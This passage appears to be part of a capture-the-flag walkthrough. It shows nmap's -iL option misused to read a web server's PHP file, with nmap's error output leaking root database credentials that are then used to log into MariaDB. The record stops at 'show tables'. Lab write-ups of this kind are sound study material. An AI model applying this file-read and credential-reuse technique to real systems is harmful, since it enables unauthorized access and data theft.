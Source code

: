 `nmap -iL //var/www/html/index.php`:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-24 17:56 CEST
Failed to resolve "Hi".
Failed to resolve "oliva,".
Failed to resolve "Here".
Failed to resolve "the".
Failed to resolve "pass".
Failed to resolve "to".
Failed to resolve "obtain".
Failed to resolve "root:".
Failed to resolve "<?php".
Failed to resolve "$dbname".
Failed to resolve "=".
Failed to resolve "'easy';". ←
Failed to resolve "$dbuser".
Failed to resolve "=".
Failed to resolve "'root';". ←
Failed to resolve "$dbpass".
Failed to resolve "=".
Failed to resolve "'Savingmypass';". ←
Failed to resolve "$dbhost".
Failed to resolve "=".
Failed to resolve "'localhost';".
Failed to resolve "?>".
Failed to resolve "<a".
Unable to split netmask from target expression: "href="oliva">CLICK!</a>"
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.07 seconds
```

`mysql -u root -p`:
```
Enter password: ←
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 11
Server version: 10.11.3-MariaDB-1 Debian 12

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
```
MariaDB [(none)]> show databases; ←
+--------------------+
| Database           |
+--------------------+
| easy               | ←
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0,013 sec)

MariaDB [(none)]> use easy; ←
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```
```
MariaDB [easy]> show tables; ←
```